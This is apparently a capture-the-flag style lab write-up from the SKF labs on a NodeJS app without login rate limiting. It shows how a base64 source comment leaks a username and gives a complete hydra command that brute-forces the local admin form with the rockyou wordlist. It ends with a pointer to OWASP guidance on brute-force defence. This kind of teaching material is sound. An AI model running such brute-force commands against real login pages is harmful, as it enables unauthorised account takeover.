 # NodeJS - Ratelimiting

## Running the app nodeJs

First make sure nodejs and npm are installed on your host machine. After installation, we go to the folder of the lab we want to practice. "i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following commands:

```
$ npm install
```

```
$ npm start
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

The application shows a admin login form, but we don't have the credentials, we'll have to somehow login inorder to solve the challenge, the name of the challenge is 'Ratelimiting', from that we know that we need to bruteforce login, but what would be the username?

Let's do more investigation, upon viewing the source code, there is a base64 message commented out there.

![](../../.gitbook/assets/java/Ratelimiting/1.png)

We are going to decrypt the base64 encoded string using terminal as shown in the below image.

![](../../.gitbook/assets/java/Ratelimiting/2.png)

```
$ echo 'RGV2ZWxvcGVyIHVzZXJuYW1lOiBkZXZ0ZWFtCkNsaWVudDogUm9ja3lvdQ==' | base64 --decode
$ Developer username: devteam
$ Client: Rockyou
```

## Exploitation

From this, it seems that the developer has an account with username devteam, so we probably need to bruteforce into that =) Client, rockyou? Are we referring to the rockyou wordlist?

Rockyou Wordlist - \[https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou-40.txt)

So we'll have to bruteforce the login form which is post based using some tool, I prefer hydra & burp suite's intruder to do this, in this writeup, i'll demonstrate this using hydra.

Bruteforcing using Hydra

```
hydra -l devteam -P ./rockyou-40.txt 0.0.0.0 -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid"

let's make this clear since it might be confusing for newbies or those who have never used hydra before.

-l denotes username here.
-P denotes the location of the wordlist with the passwords
0.0.0.0 is the host address
-s denotes the target port.
http-post-form is used to specify that this is a http-post-form.
 "/:username=^USER^&password=^PASS^ <-- These are the post parameters which are being bruteforced.
 F=Invalid <-- This parameter is used to filter out invalid logins.
```

After you launch a bruteforce attack against the login function, after several minutes, you'll get the password like the below screenshot.

![](../../.gitbook/assets/java/Ratelimiting/3.png)

## Additional sources

Please refer to the OWASP's guide for protecting against such type of bruteforce attacks which happens because ratelimiting is not set.

{% embed url="https://owasp.org/www-community/attacks/Brute_force_attack" %}
